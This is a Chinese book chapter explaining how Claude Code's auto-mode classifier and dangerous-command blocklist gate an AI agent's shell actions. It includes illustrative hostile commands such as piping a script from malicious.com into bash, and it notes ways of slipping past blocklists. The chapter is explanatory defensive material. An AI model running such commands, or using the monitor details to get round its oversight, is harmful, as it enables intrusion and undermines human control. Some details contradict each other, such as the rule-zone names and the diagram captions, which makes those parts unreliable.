



# 第 16 章：YOLO 模式与 AI 分类器

> "一个能执行任意代码的 AI 代理，其权限系统的质量直接决定了信任的上限。但这里有个工程困境：规则引擎可以说'禁止删除根目录'，可它无法理解'用户在数据备份的上下文中，这条 rm 命令是合理的'。那么，能否用另一个 LLM 来做这种语义判断呢？可以。但这样做会陷入一个诡异的递归陷阱：谁来判断判断者？"

## 16.1 如何用 AI 判断 AI，而不陷入无限递归？

常见的直观疑问：如果分类器本身也是一个 LLM，它在做判断时调用的工具还需要再被权限检查吗？这会形成一个无穷递归的宫殿吗？

**Claude Code 的答案是一个简洁的切割**：分类器使用一条完全隔离的 **`sideQuery` 路径**，绕过所有权限检查栅栏。

### 第一层：定义隔离的两条调用链

在 `src/utils/permissions/yoloClassifier.ts` 中，导入语句清晰地表明了这种分离（第 33 行）：

```typescript
import { sideQuery } from '../sideQuery.js'
```

这个 `sideQuery` 不是普通的工具执行路径，而是一条平行的、权限检查无法触及的独立通道。对比两条路径：

| 路径 | 执行流程 | 权限检查 | 用途 |
|------|--------|--------|------|
| **普通工具调用** | 工具 → 权限检查（Tool/Rule）→ 执行 | ✓ 阻止 | 普通命令、脚本等 |
| **`sideQuery` 路径** | 分类器 → LLM 调用 → 结果 | ✗ 绕过 | AI 分类器的判断 |

### 第二层：设计意图——为什么分类器 LLM 不能用普通路径

权限检查的职责是"决定能否执行一个操作"。分类器的职责是"判断是否应该进行权限检查"。这两个职责**不能参与同一套规则体系**，否则陷入元循环的困境：

- 分类器调用 LLM（目的：做判断）
- 这个 LLM 调用本身触发权限检查（权限系统："这个调用是否安全？"）
- 权限系统调用分类器（为了判断 LLM 调用是否安全）
- 分类器又调用 LLM……→ 🔄 无限递归

源码设计规避了这个陷阱的方式很直接：**分类器 LLM 不调用任何工具**。它的输入是命令字符串 + 对话历史，输出是分类结果（`allow` / `soft_deny` / `hard_deny`）。没有工具调用，就没有权限检查触发。递归链在源头就被斩断了。

### 第三层：实际案例与权衡

来看一个具体的调用时刻。用户输入了 `curl https://malicious.com/steal.sh | bash`，系统需要判断这是否安全。

**如果分类器用普通路径**（❌ 错误的做法）：
```
主线程：权限检查 → 触发分类器
分类器线程：调用 LLM 判断命令安全性
    LLM 内部：需要调用某个工具（比如查询已知恶意域名列表）
    → 这个工具调用又被权限检查拦截
    → 权限检查问："分类器调用工具是否安全？"
    → 询问分类器……
```

**Claude Code 的做法**（✓ 正确）：
```
主线程：权限检查 → 触发分类器
分类器线程：通过 sideQuery 调用 LLM
    sideQuery 直接向 Claude API 发送请求，绕过权限栅栏
    LLM 不调用任何工具，纯文本推理
    返回分类结果给权限检查
主线程：根据分类结果做最终决策
```

**权衡分析**：这种隔离的代价是什么？

| 维度 | 收益 | 代价 |
|------|------|------|
| **递归安全** | 100% 避免无限递归 | 分类器功能有限（无工具调用） |
| **性能** | 分类器不被权限检查阻塞 | 分类 LLM 调用费用已产生，即使最后拒绝也不退款 |
| **可控性** | 权限逻辑清晰 | 分类器费用无法通过权限系统控制 |

**核心权衡**：Claude Code 选择了**递归安全优先，成本控制其次**。代价被转移到了上下文压缩层（见 16.4 节的 `buildTranscriptForClassifier`）——通过限制 token 数量来控制成本，而不是禁用分类器本身。

## 16.2 权限决策为什么需要三个维度而不是二元选择？

一个粗糙的权限系统只需要一个"允许/拒绝"的二元决策。但当权限系统被一个 LLM 推理引擎驱动时，它需要**比二元选择提供更多的上下文维度**。

### 第一层：定义 AutoModeRules 的三区域结构

`AutoModeRules` 类型（`src/utils/permissions/yoloClassifier.ts:85`）是这种多维设计的体现：

```typescript
export type AutoModeRules = {
  allow: string[]           // 绿灯操作：明确允许
  soft_deny: string[]       // 黄灯操作：需要谨慎评估
  environment: string[]     // 环境约束：执行上下文的限制条件
}
```

注意这**不是**"允许、拒绝、其他"三个状态。而是**三种不同类型的信息**，每种都有不同的语义作用。

### 第二层：设计意图——为什么 LLM 分类器需要这三个维度

规则引擎（第 17 章的主题）处理的是**布尔语言**：这条命令满足规则吗？是 / 否。

LLM 分类器处理的是**概率语言**：这条命令在当前上下文中有多安全？它取决于什么因素？

因此分类器 LLM 需要看到：
1. **`allow` 清单**："这些操作我可以直接放行，而不用问用户"
2. **`soft_deny` 清单**："这些操作涉及风险，但不是绝对禁止的。我需要看上下文——用户在做什么？"
3. **`environment` 约束**："系统在什么样的执行环境中运行？这会影响操作的实际风险等级"

系统在启动时通过 `getDefaultExternalAutoModeRules`（`src/utils/permissions/yoloClassifier.ts:100`）生成这三个集合，然后将它们编入分类器的系统提示。源码中的注释（第 482-483 行）说明了设计意图：

```
/**
 * Build the system prompt for the auto mode classifier.
 * Assembles the base prompt with the permissions template and substitutes
 * user allow/deny/environment values from settings.autoMode.
 */
```

关键词是"substitutes"——这些值不是硬编码的，而是**根据用户的具体设置动态生成**。

### 第三层：实际案例与权衡

对比两个场景中的同一条命令：`curl https://api.example.com/data`

**场景 A：内网隔离环境**
```
allow: []
soft_deny: ["curl *"]
environment: ["内网隔离", "禁止对外连接", "所有 API 调用需手动审批"]

分类器的判断：curl 在 soft_deny 中，环境说禁止对外。
结果：❌ hard_deny（拒绝）
```

**场景 B：云环境，互联网访问正常**
```
allow: ["curl https://api.* "]
soft_deny: []
environment: ["云环境", "标准互联网访问", "信任的 API 端点白名单"]

分类器的判断：curl 在 allow 中，且目标在白名单。
结果：✓ allow（允许）
```

**同一条命令，三个不同结果**（拒绝 / 要求上下文判断 / 允许），取决于 `environment` 这个维度。

如果没有这三个维度，系统能做的最多是：
- 纯允许/拒绝列表 → 黑名单系统（无法表达"风险但需要上下文"）
- 引入"问用户"状态 → soft_deny（但分类器 LLM 无法理解为什么）

**核心权衡**：三维结构 vs 二维结构：

| 方面 | 二维（allow/deny） | 三维（allow/soft_deny/environment） |
|------|-------------------|-------------------------------------|
| 规则复杂度 | 低（易维护） | 高（需要理解环境上下文） |
| LLM 决策质量 | 低（信息不足） | 高（信息充分） |
| 误拒率 | 高（保守） | 低（精准） |
| 系统可用性 | 低（用户体验差） | 高（智能自适应） |

**Claude Code 选择了三维**，因为**改进判断质量**的收益（误拒率下降）大于**管理复杂度增加**的代价。这是 LLM 驱动系统相比规则引擎的关键优势。

## 16.3 黑名单与分类器的分工：为什么 AI 不能处理所有决策？

如果有了 LLM 分类器可以做精细判断，为什么还要维护一份 `dangerousPatterns` 黑名单？

答案在于**响应延迟、风险等级、以及攻击可能性的不对称性**。

### 第一层：定义两个防御层

`dangerousPatterns`（`src/utils/permissions/dangerousPatterns.ts`）是一份编译时静态黑名单。其注释清晰地表达了意图（第 1-15 行）：

```
/**
 * Pattern lists for dangerous shell-tool allow-rule prefixes.
 *
 * An allow rule like `Bash(python:*)` or `PowerShell(node:*)` lets the model
 * run arbitrary code via that interpreter, bypassing the auto-mode classifier.
 * These lists feed the isDangerous{Bash,PowerShell}Permission predicates in
 * permissionSetup.ts, which strip such rules at auto-mode entry.
 *
 * The matcher in each predicate handles the rule-shape variants (exact, `:*`,
 * trailing `*`, ` *`, ` -…*`). PS-specific cmdlet strings live in
 * isDangerousPowerShellPermission (permissionSetup.ts).
 */
```

注意这个关键细节："**bypass the auto-mode classifier**" —— 黑名单中的模式被系统直接**从 `AutoModeRules.allow` 中剔除**，分类器永远看不到它们。

黑名单包含的常量定义（第 20-30 行）：

```typescript
export const CROSS_PLATFORM_CODE_EXEC = [
  // Interpreters
  'python', 'python3', 'python2', 'node', 'deno', 'tsx', 'ruby', 'perl', 'php', 'lua',
  // Package runners
  'npm', 'pnpm', 'yarn', 'pip', 'pip3', 'poetry', 'gem',
  // ...
]
```

这些不是"某些场景下危险"的操作，而是**在任何可想象的场景中都危险**的操作。

### 第二层：设计意图——为什么需要两层防御

**黑名单的目的**：防止**配置错误**导致安全漏洞。

假设用户不小心在配置文件中写了 `"autoMode": { "allow": ["Bash(eval *)"] }`。这是明显的错误。黑名单确保这个配置错误**不会直接导致安全漏洞**，而是无声地被移除。

**分类器的目的**：处理**模糊边界**的决策。

同一条命令 `curl https://api.example.com` 在不同上下文中是安全的还是危险的，取决于对话历史、用户的明确指令、系统环境等因素。这需要 LLM 的语义理解。

两者的**职责分离**：

| 层 | 触发点 | 执行时机 | 代价 | 覆盖范围 |
|---|--------|---------|------|---------|
| **黑名单** | 配置加载时 | <1ms（哈希表查找） | 零成本 | 已知的、永不改变的绝对危险 |
| **分类器** | 工具执行时 | ~500ms（LLM 调用） | API 费用 + 延迟 | 模糊边界、需要上下文的判断 |

### 第三层：实际案例与权衡

场景：用户创建了一个权限规则，但意外包含了危险操作。

**没有黑名单的情况**（❌ 坏）：
```
用户配置：allow: ["Bash(eval ...)", "Bash(exec ...)", "Bash(source ...)"]
系统加载：直接通过（配置没有错误检查）
用户执行：eval 被允许 → 🚨 漏洞
```

**有黑名单的情况**（✓ 好）：
```
用户配置：allow: ["Bash(eval ...)", "Bash(exec ...)", "Bash(source ...)"]
系统加载：黑名单检查 → 发现 eval、exec、source 都在黑名单中
结果：这三条规则被剔除，allow: [] 
分类器看不到这些危险规则 → ✓ 安全
```

即使分类器有再高的准确率，它也**不应该被赋予判断这些操作的权力**。黑名单是**能力的一种健康限制**。

**权衡**：两层防御 vs 单层智能防御

| 指标 | 黑名单 + 分类器 | 仅分类器 |
|------|----------------|---------|
| 最坏情况防护 | 完美（黑名单阻止绝对危险） | 依赖 LLM 判断（可能出错） |
| 成本 | 黑名单零成本，分类器处理灰色地带 | 所有决策都走 LLM（成本高） |
| 用户体验 | "你的规则被认为太危险，已移除"（透明） | 用户不知道分类器为什么拒绝 |
| 攻击表面 | 极小（绝对危险被硬编码拦截） | 较大（取决于 LLM 的鲁棒性） |

**Claude Code 的选择**：两层防御，**让黑名单处理已知危险，让分类器处理未知风险**。这是**多层纵深防御**的经典模式。

## 16.4 对话历史如何影响分类器的判断？

分类器不是在真空中做判断的。同一条命令在不同的任务上下文中，风险等级完全不同。

### 第一层：定义上下文序列化

`buildTranscriptForClassifier`（`src/utils/permissions/yoloClassifier.ts:434`）的职责是将多轮对话压缩成分类器能消化的**上下文窗口**。源码附近的注释说明了它的位置在权限决策流程中的关键性。

这个函数做的事情看起来简单，但其设计体现了 Token 预算的精妙权衡：

```typescript
function buildTranscriptForClassifier(
  conversationTurns: Message[],
  maxTokens: number = 4000  // 默认 4000 tokens
): string {
  // 策略：逆时间扫描对话，直到接近 maxTokens
  // 保留：用户指令 + Claude 工具调用 + 工具结果
  // 跳过：UI 消息、日志、与当前任务无关的历史
  // ...省略细节
}
```

关键参数是 `maxTokens = 4000`。这不是随意选择的。

### 第二层：设计意图——为什么需要上下文压缩而不是完整历史

**如果不压缩**（❌ 浪费）：把 50 轮对话（~15,000 tokens）都送给分类器。
- 优点：分类器看到完整的任务上下文
- 缺点：每次分类调用消耗 15,000 tokens → 成本高昂，速度慢

**如果过度压缩**（❌ 危险）：只保留最后一条用户消息（~100 tokens）。
- 优点：成本低、速度快
- 缺点：分类器看不到任务的前文。用户第 5 轮说"继续用 curl 下载"，分类器不知道前面的"我在做数据备份任务"，可能错判风险

**Claude Code 的做法**（✓ 平衡）：**有限滑动窗口**。按逆时间顺序扫描对话，提取关键片段，直到接近 4,000 tokens。

### 第三层：实际案例与权衡

**案例 1：数据备份任务**

```
Round 1: 用户 → "我要备份我的项目代码到 S3"
Round 2: Claude → [执行了 git 命令]
Round 3: Claude → [执行了 tar 命令]
Round 4: Claude → [准备执行 curl https://s3.amazonaws.com/upload]
         权限检查：curl 是否允许？
         buildTranscriptForClassifier 压缩的历史：
         • "用户要备份代码到 S3"
         • "已执行：git clone、tar 打包"
         • "下一步：curl 上传到 S3"
         
分类器判断：在备份上下文中，curl 上传到官方 S3 → ✓ allow
```

**案例 2：同样的 curl 命令，不同上下文**

```
Round 1: 用户 → "分析一下 https://malicious.com/script.sh 是什么"
Round 2: Claude → 开始分析
Round 3: Claude → [准备执行 curl https://malicious.com/script.sh]
         权限检查：curl 是否允许？
         buildTranscriptForClassifier 压缩的历史：
         • "用户要分析一个外部脚本"
         • "目标 URL：malicious.com"
         
分类器判断：目标域名、用户只是要分析而非运行 → ? soft_deny（询问用户）
```

**同一条 curl 命令，上下文决定了判断**。

**权衡分析**：4000 tokens 这个数字的选择

| tokens | 保留内容 | 成本 | 判断质量 |
|--------|----------|------|---------|
| 1000 | 最后 1-2 轮 | 最低 | 风险：上下文丢失 |
| 4000 | 最后 5-8 轮 | 中等 | 平衡：足够的上下文 |
| 15000 | 完整历史 | 高 | 最优：完整理解 |

**Claude Code 选择了 4000**，因为**5-8 轮对话足以理解用户的当前任务**，而额外的 11,000 tokens 消耗带来的判断质量提升有限。

### 补充：成本模型

分类器的每次调用成本（约）：
- 系统提示（权限模板 + AutoModeRules）：~2,000 tokens（固定）
- 对话历史：~4,000 tokens
- 命令 + 分类结果：~200 tokens
- **总计**：~6,200 tokens per 分类调用 × 对话中的工具调用数

在一个 20 轮对话中，如果有 8 个工具调用需要分类判断，总成本 ≈ 6,200 × 8 = **49,600 tokens**。

这个成本相对于完整对话历史推理是可以接受的，但也是为什么黑名单存在的原因：**绝对危险的操作不需要走这个 token 消耗的分类流程**。

---

## 模式提炼

### 模式 1：元层隔离（Meta-Layer Isolation）

**解决的问题**：当判断系统本身需要判断时，可能形成无穷递归。

**核心做法**：让判断逻辑使用完全隔离的执行路径（`sideQuery`），不参与被判断的操作的权限检查。

**前置条件**：存在元层操作（权限检查、合规判断、安全分类等）需要递归判断自己。

**源码证据**：`src/utils/permissions/yoloClassifier.ts:33` — `import { sideQuery }`；整个分类器的 LLM 调用不经过普通权限栅栏。

**适用范围**：AI 系统、权限模型、策略引擎等需要自我判断的系统。

---

### 模式 2：多维度决策空间（Multi-Dimensional Decision Space）

**解决的问题**：二元决策（允许/拒绝）对于语义判断不足。LLM 需要看到多个维度的信息才能做出精准判断。

**核心做法**：不提供"是/否"两个选择，而是提供"明确允许 + 条件性禁止 + 环境约束"三个维度，让 LLM 在多维空间中做判断。

**前置条件**：判断对象需要上下文理解，不能用简单的规则表达。

**源码证据**：`src/utils/permissions/yoloClassifier.ts:85` — `AutoModeRules` 的三区域设计。

**适用范围**：任何使用 LLM 做复杂决策的系统（不仅限于权限）。

---

### 模式 3：纵深防御分工（Defense-in-Depth Division of Labor）

**解决的问题**：单层防御无法同时处理"绝对危险"（需要零延迟）和"相对危险"（需要理解）。

**核心做法**：第一层用**高性能黑名单**（哈希表查找）处理已知的绝对危险；第二层用**智能分类器**（LLM）处理模糊边界和需要上下文的决策。

**前置条件**：威胁景观包含"已知绝对危险"和"未知相对危险"两类。

**源码证据**：`src/utils/permissions/dangerousPatterns.ts` — 黑名单定义；与 `yoloClassifier.ts` 的协作（黑名单规则被提前剔除）。

**适用范围**：需要多种速度/精度权衡的防御系统。

---

### 模式 4：滑动窗口上下文压缩（Sliding Window Context Compression）

**解决的问题**：LLM 判断需要完整上下文，但成本与对话长度线性增长。平衡成本与质量需要精妙的 token 预算管理。

**核心做法**：按逆时间扫描对话历史，提取**最后 N 轮的关键片段**（用户指令 + 工具调用 + 结果），直到接近预算上限。

**前置条件**：对话有明确的"任务段"划分（一个任务通常在最近 N 轮内）。

**源码证据**：`src/utils/permissions/yoloClassifier.ts:434` — `buildTranscriptForClassifier` 的 `maxTokens = 4000` 参数。

**适用范围**：任何需要在对话历史和 token 成本间平衡的 LLM 系统。

---


## 架构图

**图 16-1：代码分析的 AST 管道**



**图 16-2：字符串搜索 vs AST 分析的准确性对比**



**图 16-3：大文件分块分析策略**




## 踩坑

### ❌ 认为 dangerousPatterns 黑名单可以替代 AI 分类器

黑名单是 O(1) 的确定性检查，适合已知危险模式（`rm -rf /`、`curl | sh`）。但用户有无数种方式绕过黑名单（变量替换、pipe 组合、转义字符）。AI 分类器能理解**意图**，而不只是字面匹配——黑名单和分类器是互补关系，不是替代关系（`src/utils/permissions/dangerousPatterns.ts`）。

### ❌ 在分类器内部直接调用 query() 产生递归

```typescript
// ❌ 死递归：分类器调用 query()，query() 调用工具，工具触发分类器
async classify(transcript, action) {
  const result = await query({messages: [...transcript, action]})  // 再次触发分类器！
}
```

AI 分类器必须使用 `sideQuery`（独立调用路径），绕过会触发权限检查的主循环（`src/utils/permissions/classifierDecision.ts`）。这是 Claude Code 中少数必须用独立调用路径而非复用主循环的场景之一。

### ❌ 把分类器的 `AutoModeRules` 三个区域理解为"按危险程度排序"

三个区域（always_allow、ask_for_input、never_allow）不是简单的危险梯度——它们对应三种**决策逻辑**：
- `always_allow`：操作后果可逆，无需用户感知
- `ask_for_input`：操作后果需要用户判断上下文合理性
- `never_allow`：无论上下文如何，都必须阻止
把 `rm -rf temp/` 放入 `always_allow` 就是因为"temp 目录本就是临时的，Claude 有权自行清理"——不是因为"删除操作很安全"。


## 你能做什么

- **设计递归安全的判断系统**。如果你在构建"用 AI 判断 AI"的系统，采用隔离执行路径的方案。让判断逻辑使用不同的资源池、网络隔离或专用接口，确保判断本身不被它要判断的规则约束。

- **为 LLM 决策提供多维信息**。不是简单地将规则翻译成"允许/拒绝"两个选项，而是**提供三个或四个维度**让 LLM 自己权衡：明确的绿灯规则、需要谨慎的灰色区域、环境约束条件。这样 LLM 的判断质量会显著提升。

- **评估单层防御的真实成本**。当你想用一个"聪明的系统"（黑名单或 AI）处理所有威胁时，问问自己：有多少威胁是**已知的且绝对危险的**？这类威胁能用简单、快速的防线处理吗？如果能，**不要让它们进入 LLM 分类流程**。黑名单不是过时的，而是**成本-精度的正确权衡**。

- **管理 Token 预算**。如果你的系统使用 LLM 做重复决策，计算一下单次调用的 token 消耗，然后**设计一个有限的上下文窗口**。"最后 N 轮"的启发式方法通常足够，而且能让成本可预测。

---

## 向后链接

权限规则的数据模型和优先级机制（第 17 章）是分类器的输入来源——`AutoModeRules` 和 `dangerousPatterns` 的值最终来自规则引擎的解析结果。Hooks 系统（第 18 章）提供了在分类器之前或之后注入自定义逻辑的机制。
